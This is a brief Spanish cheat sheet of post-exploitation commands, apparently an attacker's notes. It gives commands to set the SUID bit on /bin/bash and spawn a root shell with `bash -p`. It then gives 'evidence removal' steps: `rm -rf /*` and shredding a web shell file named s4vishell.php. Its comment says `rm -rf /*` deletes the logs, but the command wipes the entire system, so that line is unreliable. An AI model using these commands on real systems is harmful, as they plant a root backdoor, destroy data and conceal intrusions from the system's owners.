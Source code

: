 ** Permisos SUID a la bash **
`chmod u+s /bin/bash` || `chmod 4755 /bin/bash`
`bash -p`

** Eliminar evidencias **
`rm -rf /*`			//Elimina todo el sistema de logs
`shred -zun 5 -v s4vishell.php prueba.txt`




